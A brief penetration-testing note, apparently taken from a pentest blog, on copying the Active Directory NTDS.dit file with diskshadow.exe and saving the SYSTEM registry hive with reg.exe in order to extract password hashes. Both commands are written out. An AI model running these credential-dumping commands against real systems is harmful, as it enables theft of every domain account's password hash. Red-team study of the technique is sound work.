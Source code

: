 # Use DiskShadow to copy NTDS.dit

Comes from https://pentestlab.blog/tag/ntds-dit/

To copy the NTDS.dit file to C:\Windows\temp, run:

diskshadow.exe /s c:\windows\temp\diskshadow.txt

If you plan to extract password hashes from ntds.dit, you will also get a dump of SYSTEM from the registry:

reg.exe save hklm\system c:\windows\temp\reg.bak
